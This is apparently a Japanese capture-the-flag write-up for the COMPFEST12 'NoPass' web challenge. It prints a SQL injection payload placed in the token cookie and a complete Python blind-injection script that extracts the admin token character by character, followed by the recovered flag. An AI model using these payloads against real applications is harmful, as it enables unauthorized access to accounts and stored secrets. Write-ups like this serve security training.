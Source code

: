 # NoPass:Web:961pts
Forgets your password! We've already invent secure login system. One account only can log on in one device. The flag is the token of admin.  
P.S: Choose unique username to avoid duplicate.  
128.199.157.172:28337  
Hint  
I think the token is saved in database  

# Solution
アクセスすると[NoPass.html](NoPass.html)がある。  
LoginページではUsernameのみでログインできるようだ。  
Login  
[site.png](site/site.png)  
ただし重複はブロックされるので、adminでのログインはできないようだ。  
abc0123でログインすると、[Dashboard.html](Dashboard.html)と[Flag.html](Flag.html)が表示されるが、flagは無いようだ。  
cookieに以下のtokenが入っていた。  
```text
jv4hdNnATkfkHba1NIfl7PWq9tF2mQbY
```
tokenにシングルクォートを含めるとサーバーエラーが発生した。  
SQLインジェクションを狙って以下を設定する。   
```text
' OR 't' = 't' --
```
すると[Dashboard_admin.html](Dashboard_admin.html)と[Flag_admin.html](Flag_admin.html)が表示されるが、flagは無いようだ。  
ここでflagがadminのtokenだと気付く(問題文に書いてあった)。  
あとは以下のtoooooken.pyで一文字ずつ探せばよい。  
文字列flag.txtが含まれているか否かで正誤判定を行った。  
likeは大文字小文字の区別がないので、substrを使う。  
```python:toooooken.py
import requests

url = "http://128.199.157.172:28337/flag"

flag = "COMPFEST12{"
i = 12

while True:
	for j in "}-0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_":
		cookie = {"token": "' OR username = 'admin' AND substr(token,{},1) ='{}' --".format(i,j)}
		response = requests.get(url=url, cookies=cookie)
		if "flag.txt" in response.text:
			break
	i += 1
	flag += j
	print(flag)
	if j == "}":
		break
```
実行すると以下のようにflagが得られた。  
```bash
$ python toooooken.py
COMPFEST12{e
COMPFEST12{eZ
COMPFEST12{eZs
COMPFEST12{eZsQ
COMPFEST12{eZsQL
COMPFEST12{eZsQLi
COMPFEST12{eZsQLi_
COMPFEST12{eZsQLi_4
COMPFEST12{eZsQLi_4s
COMPFEST12{eZsQLi_4s_
COMPFEST12{eZsQLi_4s_u
COMPFEST12{eZsQLi_4s_us
COMPFEST12{eZsQLi_4s_usU
COMPFEST12{eZsQLi_4s_usUa
COMPFEST12{eZsQLi_4s_usUaL
COMPFEST12{eZsQLi_4s_usUaL_
COMPFEST12{eZsQLi_4s_usUaL__
COMPFEST12{eZsQLi_4s_usUaL__2
COMPFEST12{eZsQLi_4s_usUaL__20
COMPFEST12{eZsQLi_4s_usUaL__203
COMPFEST12{eZsQLi_4s_usUaL__2033
COMPFEST12{eZsQLi_4s_usUaL__20334
COMPFEST12{eZsQLi_4s_usUaL__20334e
COMPFEST12{eZsQLi_4s_usUaL__20334ef
COMPFEST12{eZsQLi_4s_usUaL__20334eff
COMPFEST12{eZsQLi_4s_usUaL__20334eff}
```

## COMPFEST12{eZsQLi_4s_usUaL__20334eff}